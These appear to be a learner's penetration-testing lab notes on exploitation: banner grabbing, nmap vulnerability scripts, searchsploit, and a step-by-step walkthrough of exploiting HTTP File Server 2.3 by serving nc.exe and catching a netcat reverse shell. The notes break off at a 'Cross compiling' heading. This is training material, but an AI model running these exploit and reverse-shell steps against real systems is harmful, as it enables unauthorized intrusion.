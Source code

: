 # Exploitation
- What is exploitation: consists of techniques and tools used by penetration testers/adveseries to gain an initial foothold on a target system or network
- Succesful Exploitation Will heavily depend on the nature and quality of *information gathering* and *service enumeration* performed on the target
## Penetration Testing Phases
1. Information Gathering
2. Enumeration
3. Exploitation
4. Post Exploitation
   1. Privelege Escalation
   2. Maintain Persistant Access
   3. Clearing Tracks
### Banner grabbing and SSH Recon
- Banner grabbing is an information gathering technique used to enumerate information regarding the target operationg system as well as services that are running on its open ports
- search service version with metasploit: `searchsploit service version` look for version
  
1. cool nmap banner grapping script: `ls -al /usr/share/nmap/scripts/ | grep banner` -> `nmap -sV --script=banner 10.10.x.x` 
2. Netcat: `nc 10.10.x.x 22` <-- port also

### Nmap scripting engine- vulnscanning

- `ls -al /usr/share/nmap/scripts/ | grep search_word`
- Shellshock: `nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/scriptypufound.cgi" 10.10.x.x`

### Search for public Exploits
- Exploit db: vsftpd 2.3.4
- Rapid7

### Lab: HTTP File Server
1. scan: nmap
2. searchsploit: `searchsploit HTTP File Server 2.3`
3. copy to desktop: `searchsploit -m 39161`
4. vim(change exploit, IP, PORT): `vim 39161`
5. start pyhton server: `python -m SimpleHTTPServer 80`
6.  copy netcat:  `cp /usr/share/windows-resources/binaries/nc.exe .`
7. netcat: `nc -nvlp 443`
8. lunch script: `python39161.py 10.10.x.x 80`
9. get flag

### Cross compiling
- 